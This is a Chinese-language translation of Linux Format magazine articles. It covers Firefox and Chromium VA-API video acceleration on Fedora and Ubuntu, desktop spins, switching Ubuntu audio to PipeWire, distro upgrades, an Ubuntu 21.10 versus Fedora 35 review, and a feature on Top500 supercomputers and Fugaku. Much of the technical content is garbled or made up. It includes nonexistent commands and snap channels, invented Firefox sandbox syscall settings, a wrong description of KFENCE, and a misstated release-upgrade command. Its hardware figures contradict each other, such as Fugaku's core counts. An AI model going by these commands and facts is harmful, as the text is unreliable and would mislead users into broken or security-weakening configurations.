早在 2010 年，一位热心的伙伴在 Mozilla 的 bug 追踪系统中提交了一个请求，要求 Firefox 支持 HTML5 视频加速。鉴于其他平台（Web、Windows 等）已经实现，这看起来是一个合理的要求。这个 bug 在 2019 年被标记为关闭，但你仍然可以在 `https://bugzilla.mozilla.org/show_bug.cgi?id=1202368` 阅读它，此外在 `https://bugs.launchpad.net/ubuntu/+source/chromium-browser/+bug/1424201` 也有相关的讨论。最初的几条回复表明，这件事的实现绝非易事。而我们在过去几个月里的尝试证明，即便有了加速（技术上从 Fedora 38 开始就有了），要让一切正常运行也绝不简单。

你可能认为 Chrome/Chromium 的情况会好一些，并想尝试一下，但 Linux 的 VA-API 加速是通过 2018 年一个不受支持的补丁进入 Chromium 的，后来被包含在某些发行版的软件包中。该选项自 2020 年起在官方 Chrome（以及 Brave、Vivaldi 和 Opera）中可用。但 Chrome 在 Ubuntu 上没有二进制发行版。至于开源的 Web 版？那个 Snap 包尚未实现 VA-API。有一个实验性构建版本你可以尝试：

```bash
sudo snap install chromium --channel=candidate/vapati
```

但即便使用了 `--enable-features=VaapiVideoDecoder` 选项并在 `chrome://flags` 中折腾了数小时，我们仍然无法使其正常工作。Fedora 的 RPMfusion 源中托管了 `chromium-freeworld` 包，但我们没有时间再去钻这个牛角尖了。

### Intel Inside，但它起作用了吗？

除了最新的 Intel 芯片（IceLake 及以上）外，此方法适用于所有 Intel 芯片。对于 Gen 8 显卡（Broadwell 及以上）的 Intel 芯片，你可能想尝试 i965 驱动。这包含了一些较旧的 SDK，因此在 RPMfusion 的 nonfree 源中提供。添加它的方式与上述添加 free 源相同（你不能只启用 RPMfusion-nonfree）。然后通过简单的 `sudo dnf install intel-media-driver` 安装 IHD 驱动，快速运行 `vainfo` 检查即可确认是否配置成功。为了解码视频，你还需要来自 RPMfusion-nonfree 的 `ffmpeg-libs` 包。

> 在 Firefox 的 about:config 页面中，我们可以更改各种设置，但通常在这里把事情搞砸比修复它们更容易。

在 Firefox 93 中真正启用 VA-API 播放需要一些钻研。幸运的是，相同的选项对 mpv 也有效，所以我们在这里快速总结。在 Firefox 中进入 `about:config` 并将以下选项设置为 `true`：
- `gfx.webrender.all`
- `media.ffmpeg.vaapi.enabled`
- `media.navigator.mediadatadecoder_vpx_enabled`

最后一个选项将加快 VP8 编码的 WebRTC 流量速度，这正是视频聊天所使用的格式。

虽然还有一些原生选项建议尝试其他方案，但由于篇幅有限，我们只保留其中几个。其中一些很快就会过时，有些从一开始就是错误的建议——特别是，任何试图通过创建 `about:config` 偏好设置 `MOZ_DISABLE_RDR_SANDBOX` 或通过 `MOZ_DISABLE_RDR_SANDBOX` 环境变量直接禁用 Firefox 的 RDR（远程数据重新分发器）以降低内存占用的操作都应该被忽略。目前的现状是，RDR 对 VA-API 调用进行了沙箱隔离，如果你从命令行启动 Firefox，会导致安全沙箱违规错误。这是一个严重的安全风险，所以请不要那样做。相反，可以通过将 `media.rdr-ffmpeg.enabled` 设置为 `false` 且 `media.rdr-vpx-enabled` 设置为 `false`，有选择性地为视频解码禁用它。

你可以通过使用此选项启动 Firefox 来检查它是否在工作：`MOZ_LOG=-PlatformDecoderModule:5,PlatformDecoderModule:5`。

这会产生大量需要仔细研究的输出，可能会迅速填满你终端的回滚缓冲区。尝试在短时间后暂停视频以限制输出量。你应该能看到几条 VA-API 消息。如果你看到类似 `VAAPI releasing dmbuf surface` 的消息，那么它就在正常运行。不同的硬件支持不同的格式；特别是 4K (AV1)（在 YouTube 叠加层的“统计数据”中可见 GeForce RTX 30 系列的情况），提供的硬件加速器非常少；不过，VP8、VP9 和 h264 (YouTube 中的 AV1) 视频得到了更广泛的支持。目前，启用 HDR 输出有点麻烦，需要将 `security.sandbox.content.sys_call_whitelist` 设置为 `220`，并在环境变量中以 `MOZ_SANDBOX_ALLOW_SYSCALL=SYS_fstat` 启动 Firefox。这是沙箱预期的系统调用输出，不会干扰 HDR 查看器。

如果这一切看起来太辛苦，请放心，让 Firefox snap（Ubuntu 的默认浏览器）支持 VA-API 要简单得多。事实上，在此时此刻，Gnome 平台 Snap 缺失我们之前提到的那些驱动库，看起来很奇怪或者有时是不可能的。如果这正在开发中但尚未实现，你可以卸载 snap 并毫无问题地使用软件源版本。其中某种组合肯定能奏效。

在 Ubuntu 中你可能不想使用 Firefox（或 Chromium）Snap 的另一个原因是，如果你是 Gnome 扩展的粉丝。访问 `https://github.com/gnome-shell/gnome-shell/ubuntu/` 源代码，你会发现这两个浏览器都拒绝加载其原生宿主连接器插件。这是网站 `extensions.gnome.org` 用来管理你的 Gnome 扩展的工具，没有它，就无法在浏览器中管理扩展。这不是唯一的选择——有一个名为 Gnome Extensions 的桌面工具（或软件中心里的 Extension Manager），或者你可以通过以下命令手动安装：

```bash
sudo apt install gnome-shell-extension-prefs
```

这里又有一个扩展警告，但你常用的密码管理器也使用原生消息与浏览器插件通信，因此如果你使用这些工具，目前请尽量避免使用基于 Snap 的浏览器。如果你使用 Bitwarden，好消息是：该管理器官方向我们保证，他们将为 Linux 版本修复此问题。提及所有这些虽然令人恼火，但好事是这类 Bug 能通过内部机制被迅速发现。实际上，直接由 Mozilla（以及 Flatpaks）提供的方式允许开发者独立于发行版打包者发布软件。这种观点得到了 Rado 的支持：“Mozilla 希望直接向用户交付 Firefox，这对所有相关方都有好处很大。从 QA 角度来看，我们与 Mozilla 合作，确保其 QA 流程满足我们对 Ubuntu 的需求。”

## Nvidia 和 AMD

我们在 Intel 显卡上非常彻底地测试了 libva 的情况，得益于 Mesa 驱动，AMD 硬件或使用 Nouveau 驱动的情况应该与之相同。Nvidia 专有驱动拥有自己的 `NVDEC` 和 `NVENC` API，部分应用程序支持，但并非所有浏览器都支持。不过，另一个 `libva-nvidia-driver` 允许在流行浏览器中提供支持，尽管它在媒体播放器中的支持程度不如 AMD 和 Intel 硬件。有趣的是，Gnome 网页浏览器（具体来说是 Epiphany 之后版本！）通过 GStreamer 支持所有这些 API。和往常一样，Arch Wiki 是了解所有这些细节的最佳场所，特别是文章加速页末尾那几张精美的表格：`https://wiki.archlinux.org/title/Hardware_video_acceleration`。

> 我们并不以自己为了让 `intel_gpu_top` 中的 vaapi 进度条显示非零数值而反复观看该视频的次数为荣。


## 版本、衍生版与升级

Fedora 和 Ubuntu 都有各种各样的替代版本，而且两者都可以轻松地在推荐配置之外进行自定义。

除了旗舰桌面版本外，Fedora 和 Ubuntu 还有许多其他官方选项，你可能会感兴趣。为了好玩（尽管实际上一点也不好玩），我们尝试在一部旧机器上安装这些操作系统，该机器拥有 512MB 内存和一个（性能平庸的 64 位）Celeron 处理器，远低于推荐配置。

一旦安装完成（耗时极长，因为 2010 年代早期的廉价笔记本电脑硬盘速度很慢），这两个操作系统出人意料地可用。但事实证明，使用基于 LXQt 的衍生版本由于其低调的简洁性而更加可用。LXQt 的外观更加朴素，但考虑到它的本质——最快速的桌面环境——这并不令人惊讶。Gnome 的内存占用为 700MB，而 LXQt 则更加精简，仅为 400MB。

即使你没有使用旧硬件，你也可能不喜欢 Gnome 桌面。如果你确实在用旧硬件，你可能会喜欢仍然存在一个使用 LXDE 的 Fedora spin 版本，这是一个基于资深 GTK2 的轻量级桌面。想要一种不同的怀旧方案，可以尝试 XFCE-CATE 组合，它带来了 Gnome 2 的美学，并加入了一个“摇摆窗口”的扭曲效果。Kubuntu 和 KDE Plasma 的 Fedora spin 是最受欢迎的替代选项，但你会发现，只要是你敢于尝试的任何桌面，都能找到相应的 spin/flavour 版本。此外还有 Fedora Kinoite，一个自动更新的（类似于 Silverblue 版本）Plasma spin。与桌面 spin 类似的是 Fedora Labs。这些安装版本通过定制的软件捆绑包来满足特定领域的兴趣。例如，如果你对计算神经科学感兴趣，可以尝试 Comp Neuro Lab。它结合了最好的开源神经网络模拟软件（对于未来的路线图来说，这个领域是否太冷门了？——编辑注）。

## 走进实验室...

大多数 Lab 都是以科学为主题，但也有用于艺术和创意设计的 Design Suite，以及用于音乐和音频的 Jam。还有一个 Games Lab，其中捆绑了一些相当有趣（虽然有些非常古老）的 FOSS 游戏。它不包含任何优化或驱动程序，但我们稍后将看看两种桌面在现代游戏中的表现如何。Fedora 还设有特别兴趣小组（SIGs），它们不一定与特定的 spin 或 Lab 绑定，其使命是确保该特别兴趣小组涉及的软件在 Fedora 上被正确打包并正常工作。我们推荐 Sway（一个深受开发人员和快捷键粉丝喜爱的轻量级平铺窗口管理器）；它现在有了自己的 SIG。

太空、大脑、平板电脑和外星人——无论任何人，都能在 Fedora Spin 或 Ubuntu flavour 中找到适合自己的版本。

## 在 UBUNTU 中将 PULSEAUDIO 切换为 PIPEWIRE

PipeWire 子系统的绝大部分已经存在于 Ubuntu 中，但如果你想让它处理音频，则需要其 PulseAudio 守护进程和一些辅助客户端库。可以通过以下命令获取这些组件：

```bash
sudo apt install pipewire-pulse pipewire-audio-client-libraries
```

现在系统已经意识到新单元的存在且已安装，请禁用陈旧的 PulseAudio。请注意，这里没有使用 `sudo`，因为我们仍在用户侧操作。这意味着如果操作失败，至少只有一个用户的（即你的，抱歉）音频会损坏：

```bash
systemctl --user daemon-reload
systemctl --user --now disable pulseaudio.socket pulseaudio.service
```

最后，我们可以启动新的音频子系统：

```bash
systemctl --user --now pipewire pipewire-pulse
```

你可以通过 `pactl info` 检查它是否在工作，标志性的行将显示为：`Server Name: PulseAudio (on PipeWire 0.3.32)`

如果你想尝试最新的前沿版本，可以在 https://pipewire-debian.github.io/pipewire-debian 找到 PPA 和相关指令。尽管这是新技术，但如果它无法工作，请不要感到惊讶，特别是在复杂的多媒体设置中。如果工具包和 PPA（或任何 PPA）没有达到预期效果，请记住存储库中有一个命名准确的 `ppa-purge` 可供使用。

如果没有一些关于它们辉煌新背景的低分辨率截图，那就不像是一篇关于发行版的专题文章了。

这是一个相当大的 4.1GB 下载量，已经开始挑战 DVD 的物理容量极限（噢天哪——编辑注），但 Ubuntu Studio 过去曾提供通过互联网下载的包。但自上一个版本以来，补丁现在可以在官方内核源码中激活，且通常会对桌面系统造成问题，因此不再需要。相反，现在使用的是来自 Ubuntu 存储库的低延迟内核，对于绝大多数音频发烧友来说，其延迟已经足够低了。

关于多媒体，有一件事我们还没有提到，那就是 PipeWire 现在已安装在两种发行版中。Ubuntu 曾经只使用 PulseAudio；“用于视频的 PulseAudio”可能不是最好的宣传方式（考虑到许多用户在 PulseAudio 维护期间并不欣赏它），但目前，Jammy 的情况已经不同。相反，它将 PipeWire 作为在 Wayland、流媒体和屏幕录制时代掌控多媒体的关键。它实际上是 Fedora 的默认音频子系统，但除非你进入设置，否则你不会注意到任何变化。除了极少数极端情况外，这部分应被视为 PulseAudio 的无缝替代品。它以 Systemd 用户守护进程运行，因此可以通过以下命令检查其运行状态：

```bash
systemctl --user status pipewire-pulse
```

你可以通过运行 `pactl info` 获取更多信息（这需要安装 `pulseaudio-utils` 包）。如果你真的想知道它在负载下的表现，请参阅（左侧）文本框。除了管理音频，PipeWire 还可以处理来自 JACK、ALSA 和 GStreamer 的音频。它在设计时还考虑了沙盒化，因此你会看到它在 Wayland 上与 Snaps 和 Flatpaks 协同工作。

## 升级你选择的发行版

由于生命周期相对较短，你可以预期在这两种发行版上更新到下一个版本都会非常简单。事实确实如此，或者至少应该是这样。我们意识到当你阅读本文时，Fedora 35 应该已经发布了，尽管在撰写本文时 beta 版才刚刚发布。在 Fedora 上升级到下一个版本（无论是否是 beta 版）只需几个步骤。首先，确保系统已完全更新：

```bash
sudo dnf refresh update
```

下一步是下载新版本，此时你会收到提醒，告知你在此之前确实应该完成上一步：

```bash
sudo dnf system-upgrade download --releasever=35
```

一旦新软件包列表下载完成，你将有最后一次机会放弃升级。否则，就只能等待几千个软件包下载完成。简而言之，这是一个准备一杯茶的好时机。当你回来时，你必须确认将软件包签名密钥导入到新版本中，然后就可以重启了：

```bash
sudo dnf system-upgrade reboot
```

与常规的 Fedora 更新一样，无论是否使用 GUI，新软件包将在重启后安装。然后，那件可能需要再次泡杯茶的事情——系统将再次重启并进入你的新版本 Fedora。一旦启动了最新版本，你可以轻松地通过以下命令清理前版本的残留：

```bash
sudo dnf system-upgrade clean
```

如果你使用的是流行的 Ubuntu 桌面衍生版，你会熟悉来自“软件”应用程序的友好提醒，告知你有新版本可用。出于某种原因，如果你没有看到此提醒，且在完全更新并重启后仍未升级，可以使用一个新的命令行形式来强制升级：

```bash
sudo apt full-upgrade
```

以上就是本月对 Ubuntu 和 Fedora 最新版本的深入探讨。在下一页，你可以看到始终可靠且直言不讳的 Mayank Sharma 在他的面对面对比中是如何评价的。


## Ubuntu 21.10 Ubuntu vs Fedora 35

**Mayank Sharma** 想知道，除了不同的软件包格式之外，这两个领先的基于 Gnome 的发行版之间是否还有更多区别。

**规格参数**

| 功能 | Ubuntu 21.10 | Fedora 35 |
| :--- | :--- | :--- |
| CPU | 2GHz | 2GHz |
| 内存 | 2GB | 2GB |
| 硬盘 | 25GB | 25GB |
| 构建版本 | x86-64, arm64, ppc64le, s390x | amd64 和 arm64 |

坦率地说，Ubuntu 和 Fedora 这两个可以说最具代表性的发行版之间几乎没有共同点。我们利用两者都使用 Gnome 桌面这一事实，将它们作为首轮对比对象，而这反而凸显了两版本之间的差异。

在相似性方面，除了主打的基于 Gnome 的界面外，两个发行版都拥有基于各种流行桌面环境的衍生版本（spins）。此外，两个项目在发布大多数版本时都相当成熟，且提供的版本数量远不止于桌面用户版本。

尽管很难找到一个绝对的答案，但我们在接下来的 8 页中详细回顾了它们各自的努力——你可以在各种服务器、容器、物联网（IoT）和公有云上同时使用 Ubuntu 和 Fedora。

在差异方面，Ubuntu 每两年发布一次长期支持（Long Term）版本，这使其更具延续性。Fedora 则对所有版本一视同仁。Ubuntu 21.10 是一个标准的短期发布版本，支持周期为九个月；而 Fedora 35 如果一切按计划进行，将获得大约 13 个月的更新。

在安装和更新过程的易用性方面，两者之间几乎没有差别。Fedora 的 Anaconda 和 Ubuntu 的 Ubiquity 是两个最好的 Linux 安装程序。虽然我们可以挑剔它们不同的实现方式，但事实是，它们操作舒适，能够满足绝大多数用户的需求。

在之前的版本中，Ubuntu 初次尝试重新设计的 Gnome 是这样的。即便如此，Ubuntu 的开发者投入了大量时间和精力对 Gnome 进行微调，以模仿已停用的 Ubuntu Unity 桌面的几个方面。

首先，Ubuntu 21.10 直接将用户引导至桌面，覆盖了上游 Gnome 首先弹出“活动”屏幕的行为。此外，最显著的“Ubuntu 特色”是将 Dock 栏放置在屏幕左侧，这得益于 Ubuntu 开发者将使 Dock 运行所需的基础架构上游化。但我们不能忽视最小化按钮的问题，该按钮在上游 Gnome 中已被删除，但在 Ubuntu 的窗口中依然存在。

谈到 Ubuntu Dock，在最新版本中，它现在拥有一个持久的回收站图标，而非快捷方式。同样非常有用的改进是，Dock 现在在固定应用和运行应用之间放置了一个明显的分隔线。

进入 Ubuntu 21.10 的另外两项显著的基于 Gnome 的改进是：经过彻底改造的、具有水平滚动工作区的“活动”视图，以及新的通知手势。

另一方面，Fedora 35 长期以来被认为是首选的 Gnome 发行版，因为它几乎总是捆绑最新版本的桌面环境。虽然启动器/Dock 在 Ubuntu 的 Gnome 中扮演重要角色，但在 Fedora 35 中，直到你打开“活动概览”时它才会出现。

### 探索底层架构

Ubuntu 21.10 搭载了最新版本的 PipeWire，由于它能以极低延迟进行音频和视频的捕获与回放，因此引起了多媒体领域的关注。然而，该版本默认仍使用 PulseAudio，但改进了蓝牙音频编解码器。

与此同时，Fedora 35 在让用户体验过 PipeWire 之后，现在将其默认会话管理器更换为功能更丰富的 WirePlumber 会话管理器，从而允许更多的自定义。

Ubuntu 21.10 搭载了 GTK4，并默认使用 Yaru 主题的浅色版本。

在软件获取方面，Ubuntu 21.10 唯一显著的变化是 Firefox 现在由 snap 提供支持，显然是为了让 Firefox 开发者能更好地控制更新过程，不过常规的 Firefox 软件包在软件仓库中依然可用。

Fedora 重新设计了软件商店，并增强了对 Flatpaks 的支持，这意味着启用第三方仓库后，软件商店中也会列出选定的 Flathub 应用程序，包括 Zoom、Microsoft Teams、Skype、Bitwarden、Mindset 等。

## 最新动态

延续这个基调，情况大抵相同。Ubuntu 21.10 基于 Linux 内核 v5.13 构建，而 Fedora 35 则凭借 v5.15 胜出。v5.13 成为首个正式包含对苹果硬件 Arm 架构 M1 SoC（片上系统）初步支持的内核。它还带来了对内核电围栏（KEFENCE）内存错误检测器的早期支持。该功能在 Ubuntu 21.10 上默认启用，将随机化内核的内存位置，使某些漏洞调用在 arm64 和 x86_64 架构上更难进入。

一项酝酿已久的后台变更是在启用 zstd 压缩，据称这将加快软件包的安装速度。当然，正如你可能猜到的，Fedora 用户使用 zstd 压缩包已经有两三年了。

哦，此外，这两个发行版都为使用闭源 Nvidia 显卡驱动的用户提供了改进的图形支持，现在可以在这两个发行版上完整运行 Wayland 会话。

如你所见，不同的软件包格式仅仅是这两个领先发行版之间众多区别元素之一。Fedora 35 为你提供纯净的 Gnome 体验，而 Ubuntu 21.10 则通过根据其审美微调桌面来追求延续性。

## 致所有开发者

Canonical 将 Ubuntu 21.10 誉为云原生开发者最高效的环境。Canonical 认为现代开发实践依赖于一致且可信的容器化镜像，并透露在本次发布中，它还发布了符合开放容器倡议（OCI）标准的 Ubuntu 21.10 Docker 镜像，共同发布在 Docker Hub 和 Amazon ECR 公共注册表中。

Ubuntu 21.10 的其他显著技术亮点包括：Apache Cassandra 现在以 snap 形式提供，以及支持静态分析的 PHP 8 和 GCC 11。

与此同时，Fedora 35 中以开发者为中心的最大权重变更，是该发行版迁移至 Python 3.10 并退役了长期不受支持的 Python 3.5。此外，Node.js 解释器已升级至下一个 30 个月 LTS 版本 v16.x，以及 PHP 8.1。

在几乎每个方面，Fedora 总是比 Ubuntu 更接近上游，并承诺比标准 Ubuntu 版本拥有更长的支持周期。我们可以再次从项目层面详细拆解这两个发行版，但从工具软件的角度来看，两个发行版都有同样引人入胜的方案，使其成为各自阵营极具吸引力的升级选择。

> Fedora 35 获得了一个新的 Connections 工具（由 Gnome 41 提供），用于在多个正在运行的远程会话之间切换。

| 结论：UBUNTU 21.10 | |
| :--- | :--- |
| **开发者：** Canonical | **网站：** www.ubuntu.com |
| **许可证：** 各种 | |
| **功能** 8/10 | **易用性** 8/10 |
| **性能** 8/10 | **文档** 8/10 |

Ubuntu 21.10 终于使重新设计的 Gnome 体验变得可用，使其成为非 LTS 用户的必选升级。

**评分 8/10**

| 结论：FEDORA 35 | |
| :--- | :--- |
| **开发者：** Red Hat | **网站：** www.fedoraproject.com |
| **许可证：** 各种 | |
| **功能** 8/10 | **易用性** 8/10 |
| **性能** 8/10 | **文档** 8/10 |

在不以牺牲稳定性为代价追求创新的前提下，足以维持其作为领先 Gnome 发行版的地位。

**评分 8/10**

***

# Linux Format 2023 年度回顾

### 性能巅峰之上的 Linux

### Mike Bedford 探索全球最快的超级计算机，揭秘 Linux 如何驱动 Top 500 的每一台高性能计算机。

每年两次，在六月和十一月，全球最快的 500 台超级计算机名单会对外公布。由高性能计算（HPC）社区高度关注的 Top500.org 列表描绘了计算能力的顶端图景，其与普通 PC 之间的差异极其显著。

审视该列表 28 年来的记录可以发现各种趋势，包括我们在之前的 Linux Format 读者专栏中经常暗示的一点。从早期的 Unix 主导，到近期发生的显著变化。在 1998 年经历了一段时间的波动表现后，到 2004 年，Linux 已经驱动了 Top 500 计算机中的大多数；在接下来的五年里，它成为了全球顶级超级计算机的通用操作系统。

为什么 Linux 是高性能计算中的主导操作系统？这是我们希望在此回答的问题，我们将回顾 Linux 在超级计算领域的历史。不过，在讨论计算的高端领域时，不能不谈硬件，所以请做好准备。在我们深入探讨之前，我们还将重点介绍一些关于全球最快计算机器的事实和数据。

### Linux 的超级首秀

1998 年，Top500 列表中近四分之一的计算机由超级计算机专家 Cray Research 制造，这也是 20 世纪 90 年代的基调——由 HP、IBM、NEC 和富士通等知名超级计算机制造商主导。但从其他方面来看，90 年代的高性能计算展现出了相当大的多样性。

回到 90 年代，我们看到机器由广泛的处理器产品线驱动，包括 Intel、AMD 和 IBM Power（数量相当），同时也有 DEC Alpha 和 HP PA-RISC 的身影。与此形成鲜明对比的是，在最新的列表中，超过 90% 的机器使用了 x86 处理器，这与驱动普通 PC 的处理器并没有太大区别。然而，即使在 1998 年的列表中，好几台超级计算机使用了同样出现在非高端机器中的芯片，这把我们带到了当年六月 Top500 列表的顶端。

那台机器成为了当时地球上大多数最快超级计算机中最快的一台。它不是由专业的超级计算机制造商构建的，而是由美国政府洛斯阿拉莫斯国家实验室（Los Alamos National Laboratory）的一个团队构建的。不仅如此，它还是使用现成的基于 DEC Alpha 的桌面 PC 作为基本构建模块组装而成的。

具体来说，它由 68 台 PC 组成，每台包含一个单核 533MHz DEC Alpha EV56 处理器，但它展现出了 19.3 gigaflops 的峰值性能，从而在 Top500 列表中占据了一席之地。诚然，它仅排在列表的第 314 位，但由于其此前难以想象的低廉成本，它在单位成本性能方面开辟了新天地...

价格仅为 150,000 美元（2021 年约合 255,000 美元）。造成这一巨大冲击的一个促成因素是 Thar Avalon 在 Linux 下运行，这在 1998 年是非常独特的，因为当时大多数高性能计算社区都在为他们的操作系统支付许可费——而且通常是一笔巨额费用。

### Isambard 登场

伊桑巴德·金德姆·布鲁内尔（Isambard Kingdom Brunel）是以设计和建造布里斯托尔的克里夫顿吊桥、从伦敦到康沃尔的大西部铁路以及铺设第一条跨大西洋电报电缆的蒸汽船“大不列颠号”而闻名的维多利亚时代工程师。他也将自己的名字赋予了 Isambard 超级计算机，该计算机由 GW4 联盟（由巴斯大学、布里斯托大学、卡迪夫大学和埃克塞特大学组成）与气象局合作构建。

最近观察到在最新的 Top500 列表中，采用非 x86 处理器驱动的机器占比不足 10%，因此值得注意的是，Isambard 现在是一台非 x86 计算机。具体而言，它是首台使用基于 ARM 架构处理器的超级计算机。起初它被列入 Top500 列表，但一台更大、更好的基于 ARM 的超级计算机 Isambard 2 正在开发中。而且正如我们稍后将看到的，Top500 列表目前的榜首位置也被一台名为“富岳”（Fugaku）的机器占据，它同样由 ARM 系列处理器驱动。

尽管 Isambard 在 Top500 列表中并未留下深刻印记（除了开创性地使用 ARM 架构外），但它代表了前 500 台最快计算机所共有的核心架构原则，其中最重要的是对 Linux 的使用。因此，为了理解为什么 Linux 成为了高性能计算中事实上的标准操作系统，我们将一些架构问题请教了 Isambard 项目经理。

### 高性能计算中的 Linux

西蒙·麦金托什-史密斯（Simon McIntosh-Smith）是布里斯托大学的高性能计算教授，并在那里领导 HPC 研究小组。他代表 GW4 联盟和气象局负责 Isambard 超级计算服务，在工业界和学术界的高性能计算领域拥有 27 年的经验。我们询问他为什么 Linux 是高性能计算的首选操作系统。

“主要优势在于它是开源的，”西蒙告诉我们，“这意味着供应商可以进入操作系统内部并针对 HPC 使用场景进行优化，”他说，“他们可以发现并修复漏洞，源代码可以交给其他客户和用户共享，从而让每个人对解决方案更有信心。”

我们接着询问超级计算机通常需要哪些优化。西蒙解释说，这与优化消费级电脑的外设需求有所不同。“优化可能包括通过移除 Linux 中偶尔触发但在 HPC 环境中并非严格需要的功能来减少抖动（jitter）。这些可能包括检查打印机的守护进程等——这些在咨询个人计算环境中很重要，但在超级计算机中则不然。此外，优化机器之间的通信性能以及对大型并行文件系统的 I/O 也是很常见的。”

在此基础上，西蒙强调了 Linux 开源特性的更多益处，以及“在改进 Linux 核心方面的共同投资”。他解释道，“超级计算机集成了各种不同的设备——存储系统、网络、不同的处理器、GPU——因此能够快速添加新的高性能设备驱动程序是一个优势。”

不仅如此，在回答我们关于改进 Linux 核心的疑问时，他告诉我们：“对高性能并行文件系统的支持改进是一个重点，同样重要的还有节点间通信的改进以及在单个服务器内跨多个核心的扩展能力提升。”他指出，目前有大量工作旨在使内核更具弹性且无错误，并支持像新加速器这样的设备。

西蒙提到的 Linux 的最后一个优势是我们都非常熟悉且受益匪浅的，尽管这对超级计算机社区的衡量价值远高于桌面端。“许可是免费的，”他说，“这与那些按核心/插槽/节点收费的其他操作系统相比具有明显优势。因为目前替代系统在超级计算机中几乎没有自动化部署，所以很难量化这一点，但只要看看一个使用全系列多核服务器的操作系统的许可费，就能让我们初步感受到其带来的巨大收益。Windows Server 2022 标准版 16 核心的费用约为 560 欧元。如果我们将其扩展到当今最快超级计算机的 7,630,848 个核心，最终成本将超过 2.5 亿英镑。”

### 超级计算机硬件

第一台超级计算机的身份存在争议，可能要追溯到 20 世纪 50 年代末。然而，最著名的早期机器之一是 1975 年的 Cray-1，它优化了最初的硬件方法。在微机早期，处理器通常全部基于使用分立元件构建的 CPU，并由制造商为特定机器设计。在 Cray-1 的案例中，该处理器与为主流机器设计的处理器不同；它是一个向量处理器。

这种方法现在已成为主流微处理器的特点，能够使单条指令并行处理多个值。但在 20 世纪 70 年代，这曾是超级计算机的专属领域。

定制处理器曾是常态，但超级计算机后来开始使用普通的微处理器，只是使用的数量越来越多。在不同主流用途中的一个最新趋势是使用 GPU，因为它们具有大规模并行能力。

然而，专家们现在认为，随着摩尔定律显然“动力不足”，如果想要持续获得性能提升，超级计算社区将需要回归到至少使用部分专用硬件。显然，这可能意味着一些旧方法的回归，目前已提出了多种方案，但最深奥的可能涉及量子技术。

Cray 可能仍在构建超级计算机，但它们已经从拥有专用向量处理器的 Cray-1 演变而来了。

### 聚焦日本

我们承诺提供一些关于计算频谱极端高端的惊人事实和数据，而这只能意味着一件事：日本的“富岳”（Fugaku）。富岳自 2020 年 6 月以来一直占据 Top500 列表的榜首。Fugaku 是富士山的另一种称呼，富士山是日本最高峰，因此将其作为该国计算之巅的名称非常合适，而它恰好也是目前世界上最新、最强大的机器。

从顶层向下看，富岳由不少于 432 个机柜组成，每个机柜都有一个包含三组共基板刀片的机箱。一组刀片包含 8 个 CPU 内存单元，每个单元有两个处理器。将这些全部相乘，并加入“隐藏因子”以考虑到某些机柜仅部分填充的事实，我们得到了总计 158,976 个处理器。

所涉及的处理器是富士通 A64FX，它采用了 64 个 ARM 核心，每颗芯片拥有相当可观的 48 个核心（此处原文 core count 描述有重叠），从而达到了 7,686,640 个核心的总数。离开算力硬件，富岳为每个 A64FX 配备了 32GB 的系统内存，这意味着整个系统达到了 4.85PB。

### 环境成本

超级计算机的财务成本令人咋舌，但同样真实的是，它对环境造成的成本也非常显著；因此，能源效率成为资深人士更关注的问题也就不足为奇了。

如今最快的超级计算机——日本的富岳，耗电量高达 28.3 兆瓦。这听起来可能不多，但实际上很多；它大约相当于一个拥有 5 万人口的英国城镇或城市的耗电量。目前尚不清楚这在日本需要多少费用，不过据广泛报道，2012 年时全球最快的超级计算机耗电 8.3MW，每年的运行成本为 3,900 万欧元。可以想象，它也向大气中排放了相当 amount 的二氧化碳。

从 2007 年开始，Top500 列表随之出现了 Green500 列表，该列表不仅包含 Top500 列表中的系统，还根据其效率（以 GFLOPS/watt 衡量）进行排序。

在这里取得的进展与原始处理能力的提升一样令人印象深刻。富岳的效率为 15.4 GFLOPS/watt，但这仅使其排在第 20 位。

另一台日本系统在 Top500 列表中仅排在第 33 位，但凭借令人印象深刻的 29.7 GFLOPS/watt 快速追赶。

回溯时间，五年前全球最高能效的超级计算机达到了 6.6 GFLOPS/watt，这比 2007 年启动时 Green500 列表中 0.35 GFLOPS/watt 的运行表现有了巨大的跨越。


该机器规模宏大，其存储系统包括为每 16 个 A64FX 芯片配备的 1.6TB Level 1 SSD 存储、一个共享的 15PB Level 2 文件系统，以及一个 Level 3 云存储系统。

这些数字可能令人惊叹，而其性能数据同样如此。凭借数百万个核心，富岳（Fugaku）表现强劲也就不足为奇了。在常规模式下，其 64 位双精度运算的理论峰值性能高达 488 PFLOPS。事实上，在其 2.2GHz 增强模式下，其 32 位单精度运算的速度可达 1.07 EFLOPS/s。不过，虽然我们仍在等待首台真正的艾级（exascale）计算机的问世，但当它出现时，其 64 位双精度运算能力将达到 1 EFLOPS/s。如果你不熟悉 “exa” 这个前缀，它代表后面跟着 18 个零，至于这比你桌上的 PC 快多少，就留给你自己计算吧。

### 让这些 PFLOPS 发挥实效

必须承认，一些计算机爱好者渴望极致的性能，有时会禁不住诱惑，投资购买一台性能远超其实际需求的 PC。当然，在商业领域，尤其是在超级计算领域，情况截然不同。毕竟，考虑到超过 10 亿美元的惊人成本，即便仅是 10% 的过度配置，其代价也将以百万美元计。这就引出了一个问题：所有这些强大的算力是如何被有效利用的？

由于地球上最快的几台计算机都位于美国的国家实验室中，因此各种各样的应用——从生物多样性和包容性到设计和密码学——被融入其中也就不足为奇了。然而，我们将主要关注高性能计算在民用和学术方面的用途。在富岳超级计算机运行的过去几年里，情况发生了具有代表性的重大变化。运行这台开创性机器的日本研究中心理化学研究所（Riken）揭晓了迄今为止的部分用途，其中一项尤为明显。

例如，理化学研究所和京都大学正在探索 2,000 种新的新冠肺炎（COVID-19）候选药物，以抑制病毒并帮助人体对抗病理。另一个涉及理化学研究所和京都大学的项目是对感染者及其潜在受害者周围空气的温度和湿度影响进行研究，旨在提出适当的应对措施。在此过程中，考虑到控制疫情所采取的措施对全球社会和经济的影响，几所日本大学的研究人员正在模拟社会和经济活动的可能未来，以期为政策选择提供参考。

将目光转向更近的地方，英国最快的艾级计算机由位于埃克塞特的英国气象局（Met Office）运行。它目前在 Top500 列表中占据着不错的前十位置，但也就如此了。它现在已接近其使用寿命的终点，并将于 2022 年被一台更强大的机器所取代。正如你所想象的，一个主要应用是天气预报，正如一份新闻稿所强调的，气象局表示，新的计算设施将“提供更早、更准确的严重天气预警，保护人员、企业和关键国家基础设施”。然而，这仅仅是个开始，气候建模同样重要。事实上，气象局进一步强调，它将“实现开创性的新气候变化建模，充分发挥气象局在气候科学领域的专业潜力，助力构建一个有韧性的低碳经济”。

> ### 接近艾级规模
